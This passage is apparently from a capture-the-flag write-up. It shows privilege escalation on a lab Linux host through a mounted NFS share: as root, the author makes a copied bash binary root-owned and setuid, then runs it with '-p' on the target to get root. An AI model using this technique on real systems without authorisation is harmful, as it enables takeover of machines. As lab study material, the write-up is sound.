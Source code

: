 Now we take a look at the mounted share on our system as root:
```
┌──(kali㉿kali)-[~]
└─$ sudo -i                    
[sudo] password for kali: 
┌──(root💀kali)-[~]
└─# cd /mnt                                         
                                                                                                                                                           
┌──(root💀kali)-[/mnt]
└─# ls -al          
total 1248
drwx------  3 kali kali     124 Sep 14 11:26 .
drwxr-xr-x 19 root root   36864 Sep  3 16:08 ..
-rwxr-xr-x  1 kali kali 1219248 Sep 14 11:26 bash
lrwxrwxrwx  1 root root       9 Nov  8  2020 .bash_history -> /dev/null
-rw-r--r--  1 kali kali      18 Nov  8  2019 .bash_logout
-rw-r--r--  1 kali kali     141 Nov  8  2019 .bash_profile
-rw-r--r--  1 kali kali     312 Nov  8  2019 .bashrc
drwx------  2 kali kali      61 Nov  7  2020 .ssh
-rw-------  1 kali kali      38 Nov 17  2020 user.flag
                                                                                                                                                           
┌──(root💀kali)-[/mnt]
└─# 
```

If we manipulate the permissions on our local system in the share as root user, it will be stored identical to the system:
```
┌──(root💀kali)-[/mnt]
└─# chown root: bash
                                                                                                                                                           
┌──(root💀kali)-[/mnt]
└─# chmod +s bash        
                                                                                                                                                           
┌──(root💀kali)-[/mnt]
└─# ls -al bash 
-rwsr-sr-x 1 root root 1219248 Sep 14 11:26 bash
                                                                                                                                                           
┌──(root💀kali)-[/mnt]
└─# 
```

This allows us finally to escalate our privileges on the target system:
```
[james@localhost ~]$ ls -al 
total 1208
drwx------. 3 james james     124 Sep 14 16:26 .
drwxr-xr-x. 4 root  root       34 Nov  8  2020 ..
-rwsr-sr-x  1 root  root  1219248 Sep 14 16:26 bash
lrwxrwxrwx. 1 root  root        9 Nov  8  2020 .bash_history -> /dev/null
-rw-r--r--. 1 james james      18 Nov  8  2019 .bash_logout
-rw-r--r--. 1 james james     141 Nov  8  2019 .bash_profile
-rw-r--r--. 1 james james     312 Nov  8  2019 .bashrc
drwx------. 2 james james      61 Nov  8  2020 .ssh
-rw-------. 1 james james      38 Nov 17  2020 user.flag
[james@localhost ~]$ ./bash -p
bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),1000(james)
bash-4.4# 
```
